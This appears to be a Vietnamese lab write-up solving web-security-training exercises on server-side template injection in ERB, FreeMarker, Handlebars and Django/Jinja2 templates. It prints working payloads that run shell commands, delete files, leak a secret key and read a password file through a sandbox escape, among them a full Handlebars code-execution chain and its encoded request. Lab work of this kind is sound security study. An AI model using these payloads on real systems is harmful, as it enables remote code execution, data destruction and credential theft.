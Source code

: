 # 1. Basic server-side template injection
Khi xem product với id=1, nhận thấy message "Unfortunately this product is out of stock" được hiển thị, và url có dụng `/?message=....`. Thử với `/?message=<%=7*7%>` thì phần message hiển thị 49. Như vậy website có lỗi SSTI.

Lab description cho ta biết website sử dụng ERB template, như vậy ta chuyển đến URL `/?message=<%=system("rm /home/carlos/morale.txt")` để xóa file morale.txt. Kết quả thành công.

# 2. Basic server-side template injection (code context)

# 3. Server-side template injection using documentation
Đăng nhập với credentails "content-manager:C0nt3ntM4n4g3r", ta thấy có chức năng "Edit Template" và có thể Preview sau khi edit. Thử chèn payload `${7*7}` thì trong response có số 49, như vậy website có lỗ hổng SSTI.

Thử chèn `${abc}` thì xuất hiện thông báo lỗi cho ta biết website sử dụng template "freemaker" với ngôn ngữ Java.

![image](https://user-images.githubusercontent.com/103978452/219274969-c5098403-5979-4a8a-aafe-46d20f57f3ba.png)

Sau khi research trên internet, ta tìm được một số payload. Thử chèn `${"freemarker.template.utility.Execute"?new()("id")}` thì kết quả của lệnh id được trả về trong response. Như vậy, để xóa file "morale.txt", ta chèn vào payload `${"freemarker.template.utility.Execute"?new()("rm /home/carlos/morale.txt")}`. Sau khi click Review, bài lab được giải thành công.

# 4. Server-side template injection in an unknown language with a documented exploit
Ta thấy với URL `/?message=abc` thì đoạn text "abc" sẽ được hiển thị trong response. Thử với `{{7*7}}` thì xuất hiện lỗi như sau:

![image](https://user-images.githubusercontent.com/103978452/219276586-6560f565-ba8f-4c84-a7d5-6e4cd0900619.png)

Như vậy ta biết được website sử dụng NodeJs, và sau một số research thì xác định thêm template được sử dụng là "handlebars". Ta tìm được một payload RCE trên Hacktricks như sau:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Thay thế command "whoami" thành "rm /home/carlos/morale.txt", thực hiện URL encoded rồi gán vào tham số "message". Như vậy request như sau:

```
GET /?message=%7b%7b%23with%20"s"%20as%20%7cstring%7c%7d%7d%0d%0a%20%20%7b%7b%23with%20"e"%7d%7d%0d%0a%20%20%20%20%7b%7b%23with%20split%20as%20%7cconslist%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7bthis%2epop%7d%7d%0d%0a%20%20%20%20%20%20%7b%7bthis%2epush%20%28lookup%20string%2esub%20"constructor"%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7bthis%2epop%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23with%20string%2esplit%20as%20%7ccodelist%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7bthis%2epop%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7bthis%2epush%20"return%20require%28%27child_process%27%29%2eexec%28%27rm%20%2fhome%2fcarlos%2fmorale%2etxt%27%29%3b"%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7bthis%2epop%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23each%20conslist%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23with%20%28string%2esub%2eapply%200%20codelist%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7bthis%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2fwith%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2feach%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2fwith%7d%7d%0d%0a%20%20%20%20%7b%7b%2fwith%7d%7d%0d%0a%20%20%7b%7b%2fwith%7d%7d%0d%0a%7b%7b%2fwith%7d%7d
```

Sau khi submit, kết quả thành công.

# 5. Server-side template injection with information disclosure via user-supplied objects
Đăng nhập với credentails "content-manager:C0nt3ntM4n4g3r", ta thấy có chức năng "Edit Template" và có thể Preview sau khi edit. Thử chèn `{{7*7}}` thì xuất hiện thông báo lỗi cho ta biết website sử dụng Django framework. Sau các lần thử, ta dự đoán website sử dụng template là Jinja2.

Như vậy, ta chèn payload `{{settings.SECRET_KEY}}` để lấy thông tin SECRET_KEY. Sau khi click Preview, ta thu được `SECRET_KEY=gdrnh5wqn03818q16twn6vhz8zo28tdd`. Dùng thông tin thu được để submit, kết quả thành công.

# 6. Server-side template injection in a sandboxed environment
Đăng nhập với credentails "content-manager:C0nt3ntM4n4g3r", ta thấy có chức năng "Edit Template" và có thể Preview sau khi edit. Ta thấy một bài post có sử dụng `${product.name}`, ta thử thay thành `${abc}` thì thông báo lỗi hiển thị cho ta biết rằng website sử dụng FreeMarker Template với ngôn ngữ Java.

Thử payload như trong bài lab #3 thì thấy thông báo lỗi "not allowed in the template for security reasons". Website đã chặn một số chức năng để tránh SSTI, tuy nhiên thì ta thấy vẫn truy cập được object `product` như thường.

Sau khi research, ta tìm được một payload đọc file dựa trên việc sử dụng một chuỗi các objects và methods:

```
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('path_to_the_file').toURL().openStream().readAllBytes()?join(" ")}
```

![image](https://user-images.githubusercontent.com/103978452/219292169-12d11c81-8897-4d4d-96d5-f289ad7e7f44.png)

Thay thế "path_to_the_file" thành "/home/carlos/my_password.txt", ta nhận được một chuỗi các số. Chuyển lại thành ký tự theo ASCII, thu được mật khẩu là "ugmfdfbhew2q79m8fu9t". Sử dụng thông tin có được để submit, kết quả thành công.

# 7. Server-side template injection with a custom exploit
